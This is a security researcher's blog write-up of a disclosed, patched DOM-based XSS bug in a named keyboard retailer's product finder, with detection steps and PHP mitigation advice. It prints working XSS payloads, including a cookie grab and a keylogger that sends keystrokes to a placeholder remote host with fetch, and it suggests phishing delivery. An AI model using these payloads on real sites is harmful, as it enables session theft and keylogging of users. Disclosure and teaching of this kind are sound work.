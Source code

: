 ```yaml
---
layout: post
title: "Zero-Day Research:  Mechanical Keyboard Finder Version 4.31"
featured-img: mk0day
author: Josiah Bryan
category: [Zero Day Research]
---
```


## Introduction
In this edition of *Zero-Day Research*, I happen to come across a DOM-based Cross Site Scripting Vulnerability in 'Mechanical Keyboard's (MK's) Famous Mechanical Keyboard Finder (Version 4.31)' and helped their team verify the issue upon request. I have to give lots of kudos to the awesome security team at MK. They quickly responded and patched the issue within a day of disclosure. If more vendors were as serious as MK about security, our nation's overall cyber posture would be in much better shape. MK is an industry-leading mechanical keyboard vendor with unique varieties of mechanical keyboards for sale. You can check them out [here](https://mechanicalkeyboards.com).

## Disclosure and Disclaimer
The Cross Site Scripting vulnerability was responsibly disclosed and verified (upon request) to the MK security team. This post was intended for web developers who are interested in keeping their applications secure and is for **EDUCATIONAL PURPOSES ONLY**. I do not condone illegal activity and cannot be held responsible for the misuse of this information.

## Cross Site Scripting
Cross-Site Scripting (XSS) is a common web vulnerability that allows an attacker to inject malicious javascript into normal websites. XSS is a client-side attack, where the end-user connecting to the application is the victim. This enables attackers to steal credentials, hijack accounts, access sensitive data, and much more. For more information on cross-site scripting, PortSwigger has fantastic in-depth [articles](https://portswigger.net/web-security/cross-site-scripting) explaining the different types of XSS and how they can impact end-users.

## DOM Based XSS
[OWASP](https://www.owasp.org/index.php/DOM_Based_XSS) refers to DOM Based XSS as "an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment”. The DOM in this context is the "Document Object Model", or the tree structure and programming interface that is used to construct HTML web pages:


![DOMexample](/assets/img/posts/DOMexample.png)<br/>


DOM-based XSS can be more difficult to discover than other forms of XSS because it requires a detailed review of how and where the user input is stored within the DOM. Context is the most important aspect when searching for DOM XSS because the location where user input is stored will almost certainly be different in each scenario and application.

## Identifying Vulnerable Parameters
The overall process for identifying DOM XSS bugs is simple:

1. See if the application stores user input somewhere in the DOM
2. See if the application filters certain characters or sanitizes the input. If the application sanitizes user input using techniques like HTML or javascript encoding, DOM XSS might not exist in the application.
3. If the application stores user input without sanitization, you can guarantee some extent of XSS is possible. Even with a Web Application Firewall (WAF) in play, there is an infinite amount of XSS filter bypasses that can be applied to the payload. Only upon request with full permission from the vendor should you every POC (or verify) the vulnerability on a live application. Given that we have permission to verify, we can then start crafting an attack based on where the input is stored in the DOM.

Let's start with a basic request like so:

```
xss
```

We can then search for our unique 'xss' term in the DOM after the request has been made:
* In Firefox (or any browser), right-click on the results page and select 'View Page Source':
* On the HTML source page, select Control/Command+f the find a term


![source](/assets/img/posts/basic_source.png)
<br/>
<br/>

After verifying the location and presence of our search term in the DOM we can add a few special characters to the end of the term like so:

```
xss>"'
```


Repeating the previous few steps we can verify if our new search term is stored in the DOM without being converted to an HTML entity. A basic list of basic HTML entities is shown below:

![entities](/assets/img/posts/entities_html.png)

In this particular situation, the special characters were not converted to HTML entities. That being said, we can close off the encompassing attribute or tag as a part of our search term and effectively add our code to the DOM.


## Payload Crafting

In this context we want to craft a payload that closes off the preceding h3 tag, continues to execute some code, and adds a trailing h3 tag to achieve a correct number of matching tags:
```
Sample payload: 

</h3><img src=x onerror=prompt(document.domain)><h3>
```
This will cleanly close off the encompassing h3 tag and allow us to execute code that will pop up an alert to the screen with the name of the vulnerable domain:

![alert](/assets/img/posts/domain_redac.png)

It worked! <br/><br/>**Note**: in scenarios where the application does some form of basic input sanitization searching for bad characters we could url encode our payload like so:

```
Sample payload encoded: 
%3C%2Fh3%3E%3Cimg%20src%3Dx%20onerror%3Dprompt%28document.domain%29%3E%3Ch3%3E
```

## Taking it Further
This XSS bug not only modifies the DOM but is reflected in the URL. This means we could carry out the XSS attack by providing a simple link in a phishing campaign. Collecting user cookies at this point is trivial:

```
</h3><img src=x onerror=prompt(document.cookie)><h3>
```

![cookies](/assets/img/posts/cookie_redac.png)

Keylogging and shipping the data off to a remote server is also quite simple:
```
</h3><img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'><h3>
```

From here the possibilities are endless. There are quite a few XSS [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) on the web. Some possible attack scenarios include: 

* Account Hijacking
* Port Scanning
* Spying/Keylogging
* Browser Hooking with [BeEF](https://beefproject.com/)
* Installing Backdoors/Malware

## Mitigation

DOM XSS can be hard for automated scanners to find at times because of its dynamic nature. This type of bug is quite common across the Internet but can be prevented by treating all user input as malicious and sanitizing the data in question. 

PHP (the language used by this site) offers useful functions to achieve sanitization, such as [htmlspecialchars()](https://www.php.net/manual/en/function.htmlspecialchars.php) and [htmlentities()](https://www.php.net/manual/en/function.htmlentities.php). These functions will automatically convert special characters to HTML entities. Most languages offer these types of libraries and functions to make sanitizing user input quite easy. One mistake developers make is attempting to implement filtering and sanitization using client-side controls. Each user has complete control over the client, rendering client-side sanitization efforts useless.

## References

* https://portswigger.net/web-security/cross-site-scripting
* https://portswigger.net/web-security/cross-site-scripting/cheat-sheet 
* https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html 
* https://www.owasp.org/index.php/Testing_for_Cross_site_scripting
* https://www.geeksforgeeks.org/dhtml-javascript/
* https://mechanicalkeyboards.com/about.php 
* https://www.owasp.org/index.php/DOM_Based_XSS
* https://www.w3schools.com/html/html_entities.asp
* https://www.google.com/about/appsecurity/learning/xss/
* https://www.php.net/manual/en/function.htmlspecialchars.php
* https://www.php.net/manual/en/function.htmlentities.php

<br/><br/>
**Proverbs 2:6-8**<br/>
For the Lord gives wisdom; from his mouth come knowledge and understanding...